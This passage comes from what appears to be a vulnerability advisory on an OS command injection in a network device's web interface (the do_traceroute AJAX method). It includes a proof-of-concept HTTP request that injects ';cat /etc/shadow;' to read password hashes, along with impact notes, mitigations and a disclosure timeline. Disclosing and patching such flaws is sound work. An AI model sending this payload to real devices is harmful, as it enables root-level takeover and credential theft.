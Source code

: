    * The attacker crafts a POST request to `/cgi-bin/ajax` with `ajaxmethod=do_traceroute` and injects shell metacharacters into `address` or other parameters.

#### Example PoC Request

```http
POST /cgi-bin/ajax HTTP/1.1
Host: 192.168.2.1
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=<valid-session-cookie>
Connection: keep-alive

address=1.1.1.1;cat+/etc/shadow;&ipversion=4&iors=-i&token=<valid-token>&ajaxmethod=do_traceroute&_=1693959876543
```

* **Injected payload:**

  * `address=1.1.1.1;cat /etc/shadow;`
  * The `do_traceroute` function concatenates a shell command like `traceroute -I 1.1.1.1; cat /etc/shadow; -i`, resulting in disclosure of `/etc/shadow`.

### 5.4 Impact

* **Remote Code Execution (RCE) as root**identical severity to **CVE-2025-44102**.
* The attacker can read arbitrary files (e.g., `/etc/shadow`, `/etc/passwd`) or execute any command with full privileges.
* Complete device takeover and network pivoting become trivial.

### 5.5 Mitigation

1. **Immediate Mitigation (on deployed devices):**

   * Lock down `/cgi-bin/ajax` access to a trusted management VLAN only.
   * Use a VPN or SSH tunnel for any remote management.
   * Enforce multi-factor authentication (MFA) for operator logins, if supported.

2. **Long-Term Fix (for vendor):**

   * Replace shell calls with direct traceroute libraries or properly escaped system calls (`execve`).
   * Validate that `address` matches a strict regular expression for IPv4/IPv6 addresses (e.g., `^([0-9]{1,3}\.){3}[0-9]{1,3}$`).
   * Remove `ors` and other shell-specific arguments from user control; accept a single IP string only.

---

## Timeline & Disclosure

| Date          | Event                                                                                  |
| ------------- | -------------------------------------------------------------------------------------- |
| January 2025  | Initial discovery of access control bypass and info disclosure in `ajax` & `download`. |
| February 2025 | Root cause identified; vendor notified.                                                |
| March 2025    | Vendor confirms CVE assignments (**CVE-2025-44099**, **CVE-2025-44100**).              |
| April 2025    | PoCs for OS command injection (ping/traceroute) discovered; vendor notified.           |
| May 2025      | CVE assignments finalized (**CVE-2025-44102**, **CVE-2025-44103**).                    |
| June 2 2025   | Public disclosure of detailed technical write-up.                                      |

---